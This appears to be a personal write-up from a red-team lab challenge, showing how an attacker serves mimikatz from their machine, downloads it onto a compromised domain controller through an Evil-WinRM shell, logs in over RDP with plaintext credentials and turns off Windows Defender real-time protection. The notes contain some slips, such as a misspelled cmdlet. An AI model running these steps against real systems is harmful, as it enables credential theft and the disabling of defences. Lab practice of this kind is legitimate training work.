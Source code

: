 ## Download mimikatz

[[Dumping secrets from CORPDC#Connect to RDP with the Administrator's credentials|Connect to CORP.DC with Administration credentials]]

NOTE: If you can't connect , go to [[Dumping secrets from CORPDC]]



### Enable http.server using python and proxychains on the Attacking machine


~/…/red_team_recon/Capstone_Challenge/Capstone_Challenge_Resources/Tools/mimikatz_trunk/x64$  `proxychains -q python3 -m http.server`

### Get mimikatz
On the tools provided on Capstone challenge folder you can find mimikatz.
Run on the Evil-WinRM shell the following command.

Evil-WinRM* PS C:\Users\Administrator> `wget http://10.50.110.16:8000/mimikatz.exe -o mimikatz.exe`

#### Connect to RDP with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 


## Disable CORP.DC firewall

Disabled firewall.

PS C:\Users\Administrator> `Set-MpPreferenca -DisableRealTimeMonitoring $true`

![[Preparing the path-20240607144158824.webp]]
## Disable virus protection

Disable virus and turned off Real-time protection from settings.
- **Open Windows Security:**
    
    - Click on the **Start** button.
    - Type **Windows Security** in the search bar and press Enter.
    - Alternatively, you can also find it by navigating through **Settings > Update & Security > Windows Security**.
    - ![[Preparing the path-20240607143234384.webp]]

